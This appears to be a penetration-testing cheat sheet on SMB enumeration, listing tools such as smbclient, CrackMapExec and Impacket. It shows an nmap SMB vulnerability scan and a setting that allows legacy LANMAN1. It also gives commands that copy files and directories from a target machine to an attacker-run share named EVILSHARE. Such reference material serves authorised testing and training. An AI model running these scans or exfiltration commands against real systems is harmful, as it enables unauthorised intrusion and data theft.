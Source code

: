 # Network Enum: SMB
```default
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______) and co.
 -----------------------------------------------------------------------------
```

An overview of SMB enum tools and clients.

* [File Transfers](./smb.md#file-transfers)
* [Smbclient](./smb.md#smbclient)
* [Rpcclient](./smb.md#rpcclient)
* [SMBMap](./smb.md#smbmap)
* [CrackMapExec](./smb.md#crackmapexec)
* [enum4linux](./smb.md#enum4linux)
* [Impacket](./smb.md#impacket)
* [SMB Code Execution](./smb.md#smb-code-execution)
* [Banner Grabbing](./smb.md#banner-grabbing)
* [Metasploit modules](./smb.md#metasploit-modules)


Nmap command for SMB vuln scanning:

```bash
sudo nmap -sV -p139,445 --script=smb-protocols,smb-vuln* $ip
```

In order to interact with very old SMB protocols, update your `/etc/samba/smb.conf` with:

```bash
[global]
client min protocol = LANMAN1
```

Obviously lowering your supported min SMB protocol version to ancient sumeric is a security risk, but I asssume you know what you are doing.


## File Transfers

🠒 See also [File Transfers - SMB Section](../file_transfers.md#smb)

---


Yes, you can also use it as intended.

```bash
## start impacket smbserver in linux directory
bash> smbserver.py EVILSHARE .

## copy files from and to target machine
cmd> copy .\file \\192.xxx.xxx.xxx\EVILSHARE\file

## copy entire directory
cmd> robocopy C:\directory_you_want_to_copy \\192.xxx.xxx.xxx\EVILSHARE\directory_you_want_to_copy /E
```
